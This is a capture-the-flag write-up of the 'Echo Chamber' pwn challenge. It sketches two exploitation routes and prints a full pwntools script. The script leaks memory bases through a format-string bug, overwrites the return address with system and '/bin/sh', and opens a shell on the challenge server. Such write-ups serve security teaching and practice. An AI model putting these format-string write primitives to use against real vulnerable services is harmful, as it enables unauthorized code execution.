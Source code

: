 # P.W.N. CTF

## _Echo Chamber_

## Information

**Category:** | **Points:** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 552 | 8 | merrychap

**Description:** 

> Echo chambers are a thing nowadays. Flag in /opt.

`nc echochamber.uni.hctf.fun 13374 `


## TLDR Solution

[echo_chamber](./echo_chamber)

[libc.so.6](./libc.so.6)

[ld-linux.so.2](./ld-linux.so.2)


There were basically two different approaches to exploit the binary (at least, I found two of them).

1. The first one: Produce a double free attack in the echo loop using format string bug. After this, still in the echo loop, manage the `malloc` to allocate in the same chunk that was freed earlier. Quit from the echo loop and produce fastbin-like attack in tcache, allocating in `__free_hook`, writing `one_gadget` address there.

2. The second one: In the echo loop, use stack address chains to be able to write anywhere in the memory. Then just overwrite RET with the `system` address and RET+8 with the `/bin/sh` address in the given libc.

I decided to implement the second one exploit. The first one I found after the CTF ended.

```python
from time import sleep

from pwn import *


def main():    
    libc = ELF('./libc.so.6')
    # pc = process(['./ld-linux.so.2', './echo_chamber'], env={'LD_PRELOAD': './libc.so.6'})

    pc = remote('echochamber.uni.hctf.fun', 13374)

    raw_input()

    pc.recvline()

    pc.sendline('%1$x')
    stack = int(pc.recv(10), 16) - 40
    print 'stack @ ' + hex(stack)

    pc.sendline('%5$x')
    text_base = int(pc.recv(10), 16) - 0x2029
    print 'text_base @ ' + hex(text_base)

    # 10 is an offset for buffer
    pc.sendline('%10$x')
    heap_base = int(pc.recv(10), 16) - 0x240
    print 'heap_base @ ' + hex(heap_base)

    pc.sendline('%19$x')
    libc_base = int(pc.recv(10), 16) - 241 - libc.symbols['__libc_start_main']
    print 'libc_base @ ' + hex(libc_base)
    print 

    print '1. become ' + hex((stack + 56) & 0xffff)
    print '2. become ' + hex((stack + 98) & 0xffff)

    target1 = libc_base + libc.symbols['system']
    target2 = libc_base + list(libc.search('/bin/sh'))[0]

    pc.sendline('A' * 32)

    # 61 is the offset for the server, but
    # 62 is for the local exploitation
    pc.sendline('%{}x%25$hn'.format((stack + 56) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 98) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) >> 16))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92 + 2) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) >> 16))

    pc.sendline('%{}x%61$hn'.format((stack + 100) & 0xffff))
    pc.sendline('%{}x%14$hn'.format(target2 & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 100+2) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((target2 >> 16) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))

    pc.sendline('q')

    pc.sendlineafter('Was it fun?', 'A')
    pc.sendlineafter('Would you echo again?', 'A')

    pc.interactive()


if __name__ == '__main__':
    main()
```

> flag{something_with_tcache_ga48ghydgja}